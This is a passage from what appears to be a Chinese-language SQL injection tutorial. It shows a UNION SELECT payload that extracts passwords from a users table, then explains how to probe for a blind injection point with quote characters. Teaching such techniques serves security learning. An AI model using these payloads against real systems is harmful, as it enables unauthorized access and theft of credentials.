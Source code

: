 如果想要分行获取，也可以借助LIMIT

```SQL
SELECT col_name1, …, col_nameN FROM table_name WHERE id = 3 UNION SELECT passwd, 2, 3 FROM users LIMIT 0, 1;
```

### 无回显的SQL注入

![直接回显到无回显](./assets/直接回显到无回显.png)

#### 判断注入点

根据网站功能，可能的SQL语句仍然是SELECT，而且只能是字符型

```SQL
SELECT col_name(…) FROM table_name WHERE username = '{}'
SELECT col_name(…) FROM table_name WHERE username = "{}"
```

验证猜想

+ 传入`uname='`

    ```SQL
    SELECT col_name(…) FROM table_name WHERE username = ''' /*报错*/
    ```

+ 而uname="时

    ```SQL
    SELECT col_name(…) FROM table_name WHERE username = '"' /*不报错*/
    ```

说明是单引号闭合

#### 一些SQL注入方法
